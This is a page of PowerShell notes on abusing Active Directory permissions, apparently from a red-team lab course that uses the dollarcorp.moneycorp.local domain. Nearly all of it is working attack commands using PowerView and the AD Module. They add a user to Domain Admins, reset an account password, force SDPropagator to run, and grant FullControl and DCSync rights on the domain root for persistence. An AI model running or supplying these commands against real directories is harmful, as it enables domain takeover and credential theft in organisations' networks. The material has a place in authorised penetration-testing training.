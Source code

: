 ```powershell

# For Server 2008 and older
Invoke-SDPropagator -taskName FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose

# Check the Domain Admins permission as normal user
# With PowerView
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{ $_.IdentityReference -match 'student572' }

# Using AD Module
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{ $_.IdentityReference -match 'student572' }
```

#### Abusing FullControl Rights

```powershell
# Using PowerView_dev
Add-DomainGroupMember -Identity "Domain Admins" -Members testda -Verbose

# Using AD Module
Add-ADGroupMember -Identity "Domain Admins" -Members testda
```

#### Abusing ResetPassword Rights

```powershell
# Using PowerView_dev
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose

# Using AD Module
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

## Rights Abuse

### General

- Add useful rights to domain user
- With DA privileges we can modify the ACL for the domain root to provide
  - FullControl
  - Ability to run DCSync

### Exploitation

#### FullControl Rights

```powershell
# Using PowerView
Add-Object -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student572 -Rights "All" -Verbose

# Using AD Module
Set-ADACL -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student572 -Verbose

# Add new Domain Admin
# Using PowerView_dev
Add-DomainGroupMember -Identity "Domain Admins" -Members testda -Verbose

# Using AD Module
Add-ADGroupMember -Identity "Domain Admins" -Members testda
```